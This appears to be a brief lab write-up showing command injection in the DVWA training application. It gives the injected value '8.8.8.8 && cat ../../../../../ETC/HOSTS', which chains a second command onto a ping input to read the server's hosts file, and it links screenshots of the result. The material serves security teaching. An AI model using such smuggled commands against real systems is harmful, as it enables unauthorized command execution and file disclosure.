



## Exposing the injection vulnerability in the DVWA Website

* Using command: 8.8.8.8 && cat ../../../../../ETC/HOSTS

* As you can see, we are able to see the ETC/HOSTS file inside the DVWA Server

## Same command using the Linux Command Line

* 8.8.8.8 && cat ../../../../../ETC/HOSTS

 

**NOTE:** 

*   There are also 5 subdirectories

**Picture of the hosts file located in the etc directory**

  

